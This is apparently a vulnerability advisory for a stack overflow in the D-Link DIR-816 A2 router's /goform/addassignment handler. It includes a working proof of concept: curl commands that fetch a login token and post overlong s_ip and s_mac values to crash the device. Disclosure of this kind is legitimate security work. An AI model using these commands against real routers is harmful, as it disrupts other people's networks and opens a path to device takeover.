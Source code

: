 # D-Link DIR-816 A2 Stack Overflow

**Vender** ：D-Link

**Firmware version**:1.10 B05

**Exploit Author**: GD@hillstone

**Vendor Homepage**: http://www.dlink.com.cn/

## detail description

In the handler of route `/goform/addassignment`  the value of parameter s_mac and  s_ip is saved on the stack.

However, there's no check on length of the parameter, and a very long input could lead to stack overflow and overwrite the return address。



## POC

first,get the token

`curl -s http://192.168.0.1/dir_login.asp | grep tokenid`

<input type="hidden" name="tokenid"  value="xxxx" >

then,we could send the crafted parameter along with the token to the route:

```
curl -i -X POST http://192.168.0.1/goform/addassignment -d tokenid=xxxxxx -d 's_ip=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' -d 's_mac=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
```

final,the route will crash.